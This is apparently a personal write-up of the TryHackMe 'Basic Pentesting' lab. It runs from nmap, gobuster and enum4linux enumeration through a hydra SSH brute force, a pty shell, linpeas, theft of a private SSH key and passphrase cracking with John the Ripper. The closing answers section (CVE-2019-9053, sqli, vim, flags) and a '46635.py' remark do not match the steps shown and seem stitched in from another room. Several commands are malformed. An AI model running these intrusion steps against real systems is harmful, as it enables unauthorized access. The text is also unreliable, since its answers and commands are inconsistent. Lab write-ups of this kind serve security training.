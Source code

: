 # THM - Basic Pentesting
**security - webapp - boot2root - cracking**

## Enumeration
IP Address : 10.10.248.89
### 1.1 
#### nmap
**nmap -A 10.10.248.89**
	- 22 : ssh
	- 80 : http Apache httpd 2.4.18 ((Ubuntu))
### 1.2 
#### gobuster
**gobuster dir -u http://10.10.248.89 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 
	- /development
		dev.txt : "2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
			to host that on this server too. Haven't made any real web apps yet, but I have tried that example
			you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
			using version 2.5.12, because other versions were giving me trouble. -K
			2018-04-22: SMB has been configured. -K
			2018-04-21: I got Apache set up. Will put in our content later. -J"
		j.txt : "For J:
			I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
			and I was able to crack your hash really easily. You know our password policy, so please follow
			it? Change that password ASAP.
			-K"

	- /server-status => forbidden
### 1.3 
#### enum4linux
**enum4linux -a 10.10.248.89** 
	-S-1-22-1-1000 Unix User\kay (Local User)
	-S-1-22-1-1001 Unix User\jan (Local User)
### Conclusion, vulnerabilities
2 open ports, I put my efforts to the 80. 
Finding notes, with informations like Jan ssh password is really simple to crack

## Exploit
### 1.1
#### hydra
**hydra -l jan -P rockyou.txt 10.10.248.89 ssh**
    - [22][ssh] host: 10.10.248.89
        login: jan   password: armando
### 1.2
#### SSH
**ssh jan@10.10.248.89 -p armando**
**python -c 'import pty; pty.spawn("/bin/bash")'**
Stabilize shell

### Conclusion
46635.py script work, the next step is jsut to connect with ssh protocol and find the flag.

## Privilege escalation
### 1.1
#### Enumeration with linpeas
I need to dl the script in target machine, i will use scp protocol for it : 
To my machine : 
**scp ./linpeas.sh jan@10.10.248.89:/dev/shm -p armando**
In target machine : 
**cd /dev/shm**
linpeas.sh
**chmod +x linpeas.sh**
**./linpeas.sh**
    - Private SSH keys found!:
        /home/kay/.ssh/id_rsa
**cat id_rsa**
copy to a text file the sysout to my machine
**chmod 600 id_rsa**
**ssh -i id_rsa@10.10.248.89**
A passphrase is configured
### 1.2
#### JohnTheRipper
**/opt/JohnTheRipper/run/ssh2john.py id_rsa > johnHash.txt**
We have the hash, so it's possible to run the john programm.
**/opt/JohnTheRipper/run/john.py johnHash.tx --wordlist=/opt/rockyou.txt**
beeswax
### 1.3
#### ssh
**ssh -i id_rsa@10.10.248.89**
passphrase : beeswax
**ls -la**
Find password ! 
### Conclusion
Thank to linpeas, I find a ssh key, so after copy to my computer, and use JohnTheRipper to find the passphrase, I am able to be connected with ssh with the user kay.

## Responses
### How many services are running under port 1000? : 
**2**
### What is running on the higher port? : 
**ssh**
### What's the CVE you're using against the application? : 
**CVE-2019-9053**
### To what kind of vulnerability is the application vulnerable? : 
**sqli**
### What's the password? : 
**secret**
### Where can you login with the details obtained? : 
**ssh**
### What's the user flag? : 
**G00d j0b, keep up!**
### Is there any other user in the home directory? : 
**sunbath**
### What can you leverage to spawn a privileged shell? : 
**vim**
### What's the root flag? : 
**W3ll d0n3. You made it!**